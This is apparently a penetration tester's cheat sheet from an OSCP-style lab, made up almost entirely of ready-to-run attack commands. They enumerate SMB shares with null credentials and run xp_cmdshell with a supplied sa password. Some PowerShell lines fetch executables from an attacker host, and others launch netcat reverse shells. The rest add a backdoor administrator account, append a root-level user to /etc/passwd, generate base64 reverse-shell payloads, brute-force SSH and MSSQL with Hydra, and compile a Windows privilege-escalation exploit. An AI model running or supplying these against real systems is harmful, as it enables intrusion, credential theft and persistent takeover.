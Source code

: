 #### SMB commands
smbmap -H 10.11.1.136 -u null -p ""   
smbmap -H 10.11.1.136 -u null -p "" -R   
smbclient \\\\10.11.1.136\\'Bob Share' ""    
smbclient \\\\\\\10.11.1.136\\\\'Bob Share' ""    

#### SMB file transfer
python /git/tools/impacket/examples/smbserver.py myshare /usr/share/priv/windows/   
net view \\10.11.0.232    
copy \\10.11.0.232\shell.php    

#### xp_cmdshell
nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=poiuytrewq,ms-sql-xp-cmdshell.cmd="net user" 10.11.1.31 

#### transfer files
powershell -c (Invoke-WebRequest -Uri 'http://10.11.0.232/rev.exe' -OutFile 'C:\Users\Public\rev.exe')    
powershell -c (new-object System.Net.WebClient).DownloadFile('http://10.11.0.232/shell.exe','C:\Users\Public\shell.exe')   

#### execute cmd as another user 
psexec.exe -u alice -p some-pass "c:\Users\Public\nc.exe" 10.11.0.49 443 -e cmd.exe

#### execute nc as another user
$passwd = ConvertTo-SecureString "some-pass" -AsPlainText -Force   
$mycreds = New-Object System.Management.Automation.PSCredential ("alice", $passwd)    
$computer = "bethany"    
[System.Diagnostics.Process]::Start("C:\Users\Public\nc.exe"," -nvv 10.11.0.254 8082 -e cmd.exe",    
$mycreds.Username, $mycreds.Password, $computer)   

#### add windows admin user
net user sl0wly sl0wly /add   
net localgroup administrators sl0wly /add    

#### shellpop
shellpop --list 

#### shellpop reverse tcp
shellpop --payload linux/reverse/tcp/bash --host tap0 --port 443 --base64      
shellpop --payload linux/reverse/tcp/php --host tap0 --port 443     
shellpop --payload windows/reverse/tcp/powershell --host tap0 --port 443 --base64      

#### /etc/passwd writeable
echo 'slow:aaKNIEDOaueR6:0:0:slow:/root:/bin/bash' >> /etc/passwd   
su slow   
(foo)  

#### RDP
rdesktop -u sl0wly 10.11.1.31

#### HYDRA BF
hydra -l root -P /usr/share/wordlist/rockyou.txt -T 20 10.11.1.71 ssh     
hydra -s 27900 -C /usr/share/wordlist/sparta/mssql-default-userpass.txt -f 10.11.1.128 mssql   

#### compling .exe on kali
i686-w64-mingw32-gcc MS11-046.c -o MS11-046.exe -lws2_32

#### TMUX 
tmux new-session -d -s alice s    
tmux send-keys -t alice "AR 10.11.1.5 -o /git/oscp/labs"
